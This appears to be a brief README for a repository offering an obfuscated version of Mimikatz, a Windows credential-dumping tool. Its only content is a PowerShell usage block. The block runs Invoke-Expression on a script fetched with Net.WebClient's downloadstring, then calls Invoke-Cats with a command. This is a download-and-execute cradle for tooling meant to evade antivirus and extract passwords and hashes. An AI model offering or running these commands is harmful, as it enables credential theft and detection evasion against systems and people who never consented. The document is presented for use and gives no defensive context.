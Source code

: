 # mimicats
Mimikatz obfuscation

```
Invoke-Expression (New-Object Net.Webclient).downloadstring('Mimicats.ps1')
Invoke-Cats -Command '"command"'
```
